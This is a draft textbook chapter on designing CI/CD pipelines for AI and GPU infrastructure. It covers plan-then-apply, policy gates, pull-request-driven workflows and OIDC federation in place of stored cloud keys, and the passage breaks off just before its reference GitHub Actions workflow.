# 4.2 CI/CD pipelines: concepts and design

| | |
|---|---|
| Level | Intermediate |
| Priority tier | 0 |
| Lab venue | GitHub/GitLab runner or local `act`; Terraform/OpenTofu, Ansible, Conftest, Packer optional |
| Part | Part 4: Automation and infrastructure as code |
| Status | Drafted, labs **untested** |

## Why this matters for AI infrastructure

Picture a Friday afternoon change advisory board (CAB) meeting. An engineer has filled out a change ticket for a BGP peering and kernel sysctl update across the GPU cluster. She spends forty minutes on a conference call reading a rehearsed summary to managers who have never seen the switch configuration. She gets a verbal thumbs-up. Then she opens twenty SSH windows at midnight and pastes the commands by hand. One typo later, a missing colon in a YAML file or a BGP route leak takes the storage fabric offline, and a thousand GPUs sit idle.


*Figure 4.2.V. A pipeline reviews the exact change that reaches the device, not the prose about it.*


As Christian Adell, Scott Lowe, Matt Oswalt, and Jason Edelman observe in *Network Programmability and Automation*, Chapter 13, keeping humans in the direct manual execution path is what they call **Change Management Theater**. The process is slow and exhausting. It also gives only an illusion of safety, because the prose in the ticket is not the change that actually gets typed onto the machine.

Look closely at what the meeting actually checked. The managers approved a paragraph. Nobody approved the forty commands that were pasted at midnight, and nobody could check that they matched the paragraph. The ritual felt rigorous, yet the one thing that could be verified, the text that reaches the device, was never reviewed at all. That gap between the description and the executed change is what the pipeline is designed to close.

Application CI/CD ships a stateless artefact that you can roll back in seconds. Infrastructure CI/CD changes things that are stateful, shared, expensive and sometimes physical. Think of GPU nodes that cost tens of dollars per hour, InfiniBand fabrics, Slurm controllers, firmware, and storage clusters that hold your checkpoints. A wrong merge can idle a thousand GPUs, delete a bucket, or take a fabric offline. That is why the discipline is different. Humans no longer sit in the execution path, pasting commands from laptops. They sit above the automated pipeline. They design the tests, review the exact diff and computed plan in Git, and improve the guardrails.

Put plainly, the machine does the typing, and the people decide what the machine is allowed to type. A reviewer who reads a computed plan knows the exact change that will happen. A reviewer who reads a prose ticket knows only what the author hoped would happen.

A pipeline has to meet four demands. It must produce **evidence** about what will change, whether it is safe, and who approved it, before anything **mutates**. It must limit the blast radius. It must be auditable. And it must hold the keys to production without becoming the easiest way to compromise production. Blast radius is the amount of harm a single change can cause, and a good pipeline keeps that number small on purpose. Auditable means that a stranger can later reconstruct who approved what and when.

This chapter explains the concepts and design patterns. Tool specifics for Terraform, Ansible and GitOps follow in 4.3 to 4.27. Read the concepts first, because the tools change every few years while the reasons behind them stay the same.

Before you automate any change, ask whether the pipeline produces evidence before it mutates anything.

## Prerequisites and outcomes

This chapter builds on 4.1 (Git workflow), so the repository habits from that chapter are assumed. If you have not yet been comfortable with commits, branches and pull requests, read 4.1 first. Use the list below as a self-check after you read the chapter. Each line names a skill you should be able to explain in your own words, which is a better test than whether you can recite the tool names.

- Explain how application CI/CD differs from infrastructure CI/CD, and why "CI produces evidence, CD controls mutation" matters.
- Design a pipeline with stages for static analysis, security scanning, policy checks, plans, tests, approvals, deployment, verification and rollback.
- Use pull requests as the control plane, with a plan on the pull request and an apply on merge. You will also know the roles of Atlantis, GitHub Actions, GitLab CI, Jenkins, and AWX/AAP.
- Authenticate pipelines without long-lived secrets, using OIDC federation. You will manage secrets inside pipelines and apply least privilege for each environment.
- Apply policy as code with OPA/Rego, Conftest, Sentinel and Checkov. You will also build golden image pipelines with Packer, run canary and batch rollouts for physical fleets, and detect drift.
- Test infrastructure code at several levels, and decide which tests run on every commit and which run nightly.

## 1. Application CI/CD versus infrastructure CI/CD

A junior engineer opens a pull request that changes a shared template. The diff looks small, but the template also renders the storage fabric's switch configs, and the engineer does not know it. An application pipeline would have shipped that change in minutes and rolled it back in seconds. A fabric has no such undo button, so the pipeline has to show the impact before the change is merged.


*Figure 4.2.V. Infrastructure changes cannot be rolled back as easily, so the pipeline must show impact first.*


Notice the hidden link in that story. The diff showed one template, but that template fed several devices. A good pipeline does not rely on the author to know every consumer. It renders the outputs and shows which devices change, so the impact is visible to everyone who reviews the change.

Both kinds of pipeline run the same steps, but the cost of a mistake is very different. The table shows where the two diverge, and it explains why you cannot copy an application pipeline onto a fabric and expect the same results. Read each row as a question. What do I ship? Where does it land? What does failure cost? Who holds the keys?

| Dimension | Application pipeline | Infrastructure pipeline |
|---|---|---|
| Artefact | Immutable build (image, binary) | Desired-state code plus a computed **change set** (plan/diff) |
| Target | Stateless, replicated | Stateful, shared, sometimes physical |
| Failure cost | Rollback in seconds | Destroys data, strands capacity, may be unrecoverable |
| Test environments | Cheap ephemeral | Expensive; GPU clusters and fabrics rarely duplicable |
| Rollback | Redeploy previous version | Revert code **and** reconcile reality; some changes (firmware, deleted volumes, migrated data) cannot be undone |
| Trigger | Every merge, many times a day | Fewer, reviewed, often windowed; blast-radius-aware |
| Credentials | Deploy token to a registry/cluster | Broad cloud/admin credentials: the highest-value secrets in the company |

Those differences lead to a clear set of habits. You plan before you apply. A human approves the risky changes, and you keep permissions narrow. You roll out in stages and watch for drift. Drift matters because the real world changes outside the pipeline, through console clicks, autoscalers and hardware failures.

Here is how those habits show up on a normal day. An engineer edits a Terraform module, and the pipeline produces a plan that lists every resource that would change. A reviewer reads that list and asks one question about each line. Only after the list is accepted does anything touch the cloud. If the cloud changes later, through a console click at lunchtime, the next nightly check reports the difference, and the team decides what to do with it. Each step in that story produces a record, and each record is what makes the next step safe.

### Foundations from *Network Programmability and Automation* (Ch. 13) and *Ansible: Up and Running* (Ch. 22)

Before you write any YAML workflow files, two mental models from *Network Programmability and Automation*, Chapter 13, and *Ansible: Up and Running*, Chapter 22, set the stage. They make the rest of the pipeline reliable.

- **Martin Fowler's Continuous Integration definition (2006) and Continuous Delivery vs. Continuous Deployment:** In his classic 2006 article, cited in *Ansible: Up and Running*, Chapter 22, Martin Fowler defined **Continuous Integration (CI)** as the practice where team members integrate their work frequently (at least daily). Each integration is verified by an automated build and test run, so integration errors show up immediately. He wrote: *"Anyone should be able to bring in a virgin machine, check the sources out of the repository, issue a single command, and have a running system on their machine."* **Continuous Delivery (CD)** keeps your codebase and configurations in an **always-deployable state**, verified in staging, so they *can* go to production on demand or in a scheduled maintenance window. **Continuous Deployment** is different. It pushes every passing change straight into production. That is rarely desirable for physical switches or stateful GPU clusters without staged gates. A simple way to hold the three terms apart is a ship. CI keeps the hull inspected after every repair. CD keeps the ship ready to sail at any hour. Continuous Deployment sails the moment the cargo is loaded, which is fine for a small boat and dangerous for a tanker.
- **Simple, "cookie-cutter" designs beat "snowflakes":** The biggest prerequisite for infrastructure CI/CD has nothing to do with Python or Jenkins. It is removing hand-crafted "snowflake" devices and standardizing on repeatable, cookie-cutter rack and fabric designs. Then a single Jinja2 template or Ansible role applies cleanly across the whole fleet. A snowflake is a device that someone configured by hand, so it matches nothing else. You cannot write a test for a device that matches nothing else, because there is no shared expected result to check against.
- **Test-Driven Development (`TDD`) for infrastructure:** When engineers write tests *after* building a feature or changing a network, the tests are often skipped under deadline pressure, and technical debt builds up. **TDD** reverses the order: gather requirements -> design -> **write the automated test first (which initially fails)** -> write the configuration or code that makes the test pass. For network and GPU infrastructure, this forces you to define what "working" means from the application's point of view. It is not enough that a switch accepted a CLI stanza. BGP peers must be established, RDMA and TCP connectivity must work, and end-to-end bandwidth and latency must meet SLOs. An SLO (service level objective) is the target that the service must meet, such as a bandwidth floor or a latency ceiling. Writing the test first forces the team to agree on that target before anyone argues about a config line. The red result that comes first is useful information, because it proves the test can fail.
- **The five components of an infrastructure CI/CD pipeline,** as the `Templatizer` walkthrough in *Network Programmability and Automation*, Chapter 13, shows them:
  1. **Peer review:** Instead of asking permission in a CAB meeting before starting work, an engineer cuts a branch (`git checkout -b add-interface-template`). They add `datafiles/interfaces.yml` and `templatizer/templates/interfaces.j2`, then open a Merge Request. Teammates such as `Fred` comment and vote `+1` on the exact diff. The review platform can be `GitHub` Pull Requests, `GitLab` Merge Requests, `Gerrit` changes and patchsets (which require `git commit --amend`), or `Bitbucket`.
  2. **Build automation:** Human reviewers still miss syntax errors. In Examples 13-4 to 13-7 of the same book, both the author and the reviewer missed a missing colon on line 8 of `datafiles/interfaces.yml`, which raised `yaml.scanner.ScannerError: could not find expected ':'`. Adding `tools/validate_yaml.py` and **Tox** to `.gitlab-ci.yml` fixes this. Tox runs `tox -epep8` for PEP 8 style, `tox -epy38` for unit tests, and `tox -ecover` with **Codecov** for test coverage. It runs on every push, so it catches problems before a human reviewer spends time on the pull request. A missing colon is easy to miss on a diff, because the line looks almost right. A parser does not get tired, and it reads the line the way Python or YAML would, so it reports the exact place where the structure breaks. Let the machine catch the typos, and let the human spend the review on meaning.
  3. **Deployment validation across three layers:** Checking a single box's static config is not enough for a distributed fabric. Pipelines must validate three things. First, **operational state**: the expected number of active BGP peers, link states, and GPU ECC counters, checked with **NAPALM**, **Batfish**, or **Forward Networks**. Second, **basic connectivity**: can workloads reach storage and control-plane endpoints? Third, **end-to-end performance**: bandwidth, latency and packet loss, measured with active probes such as **NetBeez**, **ThousandEyes**, `iperf3`, or `nccl-tests`, plus streaming model-driven telemetry. Think of the three layers as checking the ship in three ways. The first asks whether the engines are running. The second asks whether the crew can talk to the shore. The third asks whether the ship actually makes its speed in open water. A ship can pass the first two checks and still sail too slowly, which is why the third layer exists.
  4. **Test, dev and staging virtual topologies:** A virtual reference topology, built with **Vagrant**, **Containerlab**, or **Terraform**, can run on your laptop and in each CI stage. It catches distributed routing and convergence bugs before they reach hardware. Keep two caveats in mind. Virtual NOS images cannot emulate ASIC line-rate performance or RoCEv2 buffers. And a virtual topology drifts over time unless you keep it in sync with production.
  5. **Deployment strategies and `WISB == WIRI`:** Choose the strategy explicitly. **Deploy in place** updates all nodes at once, which you should avoid in production. **Rolling** updates one node or batch at a time. **Canary** deploys to a small, representative production slice, such as one data-center row or pod, and pauses to check telemetry. **Blue/Green** provisions a parallel environment, such as a new VRF, a routing adjacency, or a GKE node pool, and shifts traffic over for instant rollback. When you push device configurations, make sure **What It Should Be (`WISB`)** equals **What It Really Is (`WIRI`)**. For example, a Junos XML `<bgp operation="replace">` removes stale neighbor stanzas that were deleted from Git. Without it, they linger on the router as merged leftovers. A merge only adds and updates lines, so a neighbor that you deleted from Git would stay on the router forever. A replace makes the router's section match the file exactly, so the deleted neighbor disappears too. That is the whole meaning of WISB equals WIRI. What the file says it should be is what the device really is.

## 2. Core principles

Rules like these look obvious on a calm afternoon. They matter most at 11 PM, when someone is tempted to paste a fix straight into production. Each principle below answers a specific way that a pipeline has gone wrong before, and the first one is the one to remember if you forget the rest.


*Figure 4.2.V. Standard designs make infrastructure testable, which snowflakes never are.*


Principles sound obvious until a pipeline applies a change nobody reviewed. These eight rules keep a pipeline honest, and each one prevents a specific kind of failure.

1. **CI produces evidence; CD controls mutation.** Continuous integration answers the question "is this change well-formed, safe and understood?" It attaches logs, lint results, plans, policy decisions and test reports to the pull request. Continuous delivery or deployment then applies an *approved, specific* change. Never let a pipeline apply something nobody saw.
2. **Plan, then apply the same artefact.** Save the plan with `terraform plan -out=tfplan`, review it, and apply exactly that file. If you re-plan at apply time, you may get a different change from the one you approved.
3. **Everything as code, reviewed in Git** (4.1). The repository is the source of truth, and the pipeline is a transformation from commit to environment.
4. **Environments are configuration, and promotion is a commit.** The same module and artefact flow through dev, staging and prod. Only the variables differ.
5. **Least privilege and separation of duties.** Plan jobs get read-only credentials. Apply jobs get write credentials only for their own environment, run only on protected branches, and need an approval. The author cannot be the sole approver.
6. **Idempotent, repeatable, observable.** Re-running a failed pipeline must be safe. Every run should log the commit, the actor, the plan hash and the result.
7. **Small batches, fast feedback.** Most changes should run a short pipeline, and heavier checks can run nightly. Smaller change sets also limit the blast radius.
8. **The pipeline is production software.** Version it, test it, monitor its health, and protect its runners and secrets. If an attacker compromises CI, treat that as a compromise of production.

Rules 2 and 5 are the ones people break first, so they are worth a closer look. Rule 2 says to apply the same plan file you reviewed. Imagine a reviewer approves a plan that removes one old subnet. An hour later, a teammate adds a new subnet in the console, and then the pipeline re-plans at apply time. The new plan now removes the old subnet and also the new one, which nobody approved. Saving the plan file closes that gap. Rule 5 says the author cannot be the only approver. The reason is simple. The person who wrote a change is the least likely to see its flaw, because they already believe it is correct.

If you remember one rule from this list, make it the first: CI produces evidence, and CD controls mutation.

## 3. Pipeline anatomy

Picture a pull request that changes a Terraform module used by three environments. The change has to answer a series of questions before it reaches a GPU: is it well formed, is it safe, what will it really do, and does someone accountable agree? Think of the gates as those questions in order. Each gate costs more time than the one before it, so the cheapest checks run first and stop most bad changes early.

Think of a change as passing through a series of gates on its way to production. Each gate can stop a bad change before it reaches a GPU. The diagram shows the order, and the notes below it explain what each gate does.



*Figure 4.2.1. Pipeline anatomy, as a diagram.*

The first gates are the cheapest. Static checks finish in seconds. They cover formatting (`terraform fmt -check`, `ruff`, `yamllint`), syntax and validation (`terraform validate`, `ansible-playbook --syntax-check`, `helm lint`, `kubeconform`), and linters (`tflint`, `ansible-lint`, `hadolint`, `shellcheck`, `actionlint`). If a file is malformed, you find out here, before anyone reads it. Picture a pull request that adds a missing bracket to a Terraform file. The formatter and validator reject it in seconds, so the reviewer never spends a minute on a file that cannot even be parsed.

Security scans come next. They look for secrets with gitleaks or trufflehog. They check infrastructure code for misconfigurations with Checkov, tfsec or trivy config, and KICS. They scan dependencies and container images with trivy or grype, check licences, and generate an SBOM. An SBOM (software bill of materials) is a list of every package inside an image, so that when a new advisory lands, you can answer "are we running it?" from a file instead of a search.

The plan is the review object. Compute the change set, then publish it as a pull request comment and as an immutable artefact. An artefact here means a saved file that nobody edits afterwards. The commands are `terraform plan`, `ansible-playbook --check --diff`, `helm diff`, `kubectl diff`, and `argocd app diff`. A reviewer who reads the plan sees what will really change, not what the author intended. The author's intent is a sentence in the pull request description. The plan is the list of real operations, and it is the thing the cloud will obey.

Policy gates are machine-enforced rules over that plan or the manifests. They can block public buckets, missing tags, disallowed instance types, regions outside the allow-list, cost above a ceiling, deletion of protected resources, and wide network ingress. Section 7 covers them in detail. A policy gate is useful because it never has a bad day. It gives the same answer on Friday at five as it does on Monday at nine.

Tests come in three kinds. Unit-style tests render templates and evaluate modules. Integration tests run in ephemeral environments, such as kind clusters, containers, or a small cloud sandbox. An ephemeral environment is one that exists only while the test runs, and it is destroyed afterwards. End-to-end tests run on a staging slice. Section 10 covers them.

Approval is the human gate. Protected environments need required reviewers for production. High blast-radius changes need a manual gate, and changes that fall outside an approved change window need a check. Then the deploy step applies the approved artefact. Allow one apply per state or environment at a time, and stage the rollout by environment and by fleet slice. Stage means you do the same change in a small piece first, then in larger pieces, so each step is a chance to stop.

The last stages watch the result. Run smoke tests and health checks, then watch SLOs and alerts through a soak period. A soak period is a quiet wait, during which the change runs and the team watches its effect before going further. Halt the pipeline automatically if you see a regression.

Rollback policy depends on what you are changing. For stateless pieces, revert the change and redeploy. For stateful pieces, prefer a roll-forward with a prepared fix, backed by backups and a restore procedure you have tested. Roll-forward means you fix the problem with a new change instead of going back, which is often safer when the data has already moved. Document any change that cannot be reversed, so the next on-call engineer does not discover the limit at three in the morning.

For stateful systems, prefer a roll-forward with a prepared fix, backed by tested restore procedures.

## 4. Pull requests as the control plane

A reviewer wants to know what a Terraform change will do before approving it. In many teams that answer used to live in one engineer's terminal, which the reviewer could not see. Pull request tools move the plan into the review itself, so the comment on the pull request becomes the record of what was approved. The control plane is simply the place where those decisions are made and written down.


*Figure 4.2.V. The plan lives on the pull request, and only a merge may apply it.*


For Terraform, the most common pattern is to plan on the pull request and apply on merge, or apply when an approved comment is posted. The pull request then becomes the audit trail. Picture the pull request as a shared logbook at a control tower. Each plan is written in it, each approval is signed in it, and the apply is recorded beside them. Anyone who later asks "who allowed this?" finds the answer in the same place.

Several tools support this pattern. They differ mainly in who runs the work and where the credentials live. Ask two questions of any tool. Who runs the plan and apply? Where do the cloud keys sit while it runs?

- **Atlantis** (self-hosted) is a server that receives webhooks. It answers comments such as `atlantis plan` and `atlantis apply` on the pull request. While a plan is pending, it locks the workspace, so two pull requests cannot apply conflicting changes. You configure it with `atlantis.yaml`, which sets the projects, the workflows, and `apply_requirements: [approved, mergeable]`. Server-side repository allow-lists decide which repositories may override those settings. Atlantis keeps the credentials on one hardened server.
- **GitHub Actions or GitLab CI** can do the same job with workflow files. A pull request event runs `plan` and posts the result, and a protected environment gates `apply` on `main`. These tools are easier to adopt. The trade-off is that you must design the locking, with concurrency groups or state locks, and handle credentials with care.
- **Terraform Cloud / HCP Terraform, Spacelift, env0, Scalr** run the work as managed runs. They add policy, remote state, drift detection and role-based access control (RBAC).
- **Argo CD or Flux** handle Kubernetes. A pull request changes the manifests, and the in-cluster controller applies them after the merge (4.26).
- **AWX or Ansible Automation Platform** run playbooks from job templates. CI triggers a job template, so the playbook runs on a controller that holds the credentials, RBAC, inventory and audit trail (4.15).

A few design rules hold across all of these tools. Only a merge to the protected branch may apply. The applied plan must match the commit that was reviewed. Use concurrency groups for each environment or state. Keep secrets out of pull request comments by masking outputs and marking sensitive values. Fork pull requests must never receive credentials. A fork is a copy of the repository owned by someone outside the team, and anyone can open a pull request from a fork. So a fork's code is untrusted until a person reads it.

Take the locking rule as an example of how a rule works in practice. Two engineers each open a pull request that changes the same state. Without a lock, both plans are computed against the same starting state, and the apply that runs second works from a picture that is already out of date, so it can undo part of the first one's result. With a lock, the second plan waits until the first apply finishes, and then it computes against the new state. The lock is a small rule that prevents a large mess.

Only a merge to the protected branch may apply, so the tool you choose has to enforce that rule.

## 5. Authentication: OIDC instead of stored keys

A long-lived cloud key copied into CI secrets is like a house key hidden under the doormat. It works for anyone who finds it, and it keeps working until someone remembers to rotate it. OIDC gives each job a credential that expires when the job ends, and that opens only the doors its branch is allowed to open. Nothing sits in the repository waiting to be stolen.


*Figure 4.2.V. OIDC gives each job credentials that expire, so no long-lived key sits in CI.*


Long-lived cloud keys stored in CI secrets are a classic path into a breach. **OpenID Connect federation** removes the need to store them at all. The CI provider mints a short-lived, signed identity token for each job. The cloud trusts that issuer and swaps the token for temporary credentials. The scope of those credentials depends on claims such as the repository, the branch and the environment. A claim is a statement inside the token, such as "this job runs on the main branch of this repository."

Picture a conference badge. The badge says who you are, which event you are attending, and which rooms you may enter. It is printed for the day and collected at the door. Nobody stores a master key in the lobby. The OIDC token works the same way, and the cloud checks the badge each time it is shown.

Walk through what happens during one plan job. The runner asks the CI provider for a token. The token says the job came from a particular repository and branch. The job sends that token to the cloud, which checks the signature and the claims. If everything matches the rule, the cloud returns credentials that expire when the job ends. Nothing in that chain was ever typed into a secret box, so nothing has to be rotated later.

```yaml
# GitHub Actions: no stored cloud keys
permissions:
  id-token: write          # allow the job to request an OIDC token
  contents: read
jobs:
  plan:
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v4
    - uses: google-github-actions/auth@v2          # example: GCP Workload Identity Federation
      with:
        workload_identity_provider: projects/123/locations/global/workloadIdentityPools/ci/providers/github
        service_account: tf-plan@my-project.iam.gserviceaccount.com
    - run: terraform init -input=false && terraform plan -input=false -out=tfplan
```

Notice that the job requests a token with `id-token: write`, and you will find no cloud key anywhere in the file. The trust decision happens on the cloud side. Bind the identity to a service account with a **condition** on the claim. For example, allow `repo:org/infra` and `ref:refs/heads/main` for apply, and any pull request for a read-only plan. That way, a pull request from a fork or a feature branch cannot assume the apply role. AWS uses an IAM role with a web identity trust policy, Azure uses federated credentials, and Vault uses JWT auth, so the pattern carries over. Use separate identities for the read-only plan and for the write-capable apply in a protected environment.

Why separate them? The plan job only reads the cloud, so a leaked plan credential can see things but cannot change them. The apply job is the one with the power to change things, so it is the one that must be locked to the protected branch and an approval. If one identity did both jobs, the weakest pull request in the repository would carry the strongest key.

For secrets, fetch values at run time from a secret manager such as Vault or a cloud secret manager, using the OIDC identity. Use masked variables only when you cannot avoid them, and never print them. Remember that values read into Terraform data sources land in the **state file**. The state backend is therefore a secret store, so you must encrypt it and control access to it (4.19, 4.22). For secrets that live in Git, use SOPS with KMS or age, or sealed secrets (4.12). SOPS encrypts only the values in a file, so the structure stays readable in review while the secrets stay ciphertext.

Use federation for each cloud credential, and keep the plan and apply identities separate.

## 6. A reference GitHub Actions pipeline

Think of the pipeline as a relay race. Each stage passes the baton only when it succeeds, and the apply stage receives the exact plan file that the plan stage produced, not a fresh guess at it. The workflow below is a reference you can adapt. It has three stages: static checks, a plan with a policy check, and an apply to staging that waits behind a protected environment. Read the `concurrency` block first. It keeps one run per environment at a time, and it never cancels an apply that is already running.

